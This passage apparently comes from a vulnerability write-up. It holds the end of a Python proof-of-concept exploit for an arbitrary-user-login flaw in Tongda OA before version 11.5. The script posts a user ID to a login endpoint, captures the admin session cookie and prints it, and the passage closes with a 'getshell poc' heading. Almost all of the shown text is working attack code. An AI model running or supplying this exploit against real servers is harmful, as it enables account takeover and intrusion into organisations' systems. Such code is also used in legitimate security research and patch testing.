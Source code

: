             except Exception as error:
                pass
    
        def get_tongda_cookies(self):
            url =self.url +self.payload_url_cookie
            data = {'CODEUID':self.get_tongda_uid(),'UID':1}
            r =requests.post(url,data=data,headers =self.headers,verify=False)
            try:
                if r.headers['Set-Cookie'] != None and self.vulhub != False:
                   tongda_cookie =r.headers['Set-Cookie']
                   print('【+】 Get session of current URL successfully',tongda_cookie)
    
                else:
                    print('[-] Failed to get session of current URL')
    
            except Exception as error:
                pass







        def run(self):
            self.get_tongda_cookies()



    if __name__ == '__main__':
    
        # Author  : 小泫
    
        warnings.simplefilter("ignore")
        if (len(sys.argv)) < 2:
            print('useage : python' +str(sys.argv[0]) + ' -h')
        else:
            parser =argparse.ArgumentParser()
            parser.description ='通达OA < 11.5版本 任意用户登录'
            parser.add_argument('-u',help="待检测url -> example http://127.0.0.1",type=str,dest='check_url')
            args =parser.parse_args()
    
            aa = Tond_da_poc(args.check_url)
            aa.run()

![](./resource/通达OA<11.5.200417任意用户登录漏洞/media/rId34.png)

### getshell poc
